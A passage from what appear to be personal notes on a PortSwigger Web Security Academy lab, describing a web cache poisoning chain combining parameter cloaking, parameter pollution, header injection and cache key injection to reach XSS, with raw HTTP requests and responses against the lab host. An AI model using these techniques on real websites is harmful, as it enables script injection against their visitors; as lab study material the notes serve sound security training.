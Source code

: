 Every user visiting the home page is redirected to the second poisoned page (while the arbitrary language is set), where the malicious JSON is downloaded:
![](../../zzz_res/attachments/Double-poisoning-XSS.png)

## Cache Parameter Cloaking + HTTP Param Pollution + Header Injection + Cache Key Injection 

Redirection chain:
```http
GET / HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 302 Found
Location: /login?lang=en
X-Cache-Key: /$$

---

GET /login?lang=en HTTP/1.1
Pragma: x-get-cache-key
Origin: test.com


HTTP/1.1 302 Found
Location: /login/?lang=en
X-Cache-Key: /login?lang=en$$Origin=test.com

---

GET /login/?lang=asd HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 200 OK

<link rel="canonical" href='//0a3c0044037d28bd8061ee010087006f.web-security-academy.net/login/?lang=asd'/>
...
<script src='/js/localize.js?lang=asd&cors=0'></script>

---

GET /js/localize.js?lang=asd&cors=0 HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 200 OK
X-Cache-Key: /js/localize.js?lang=asd&cors=0$$

document.cookie = 'lang=asd';

```
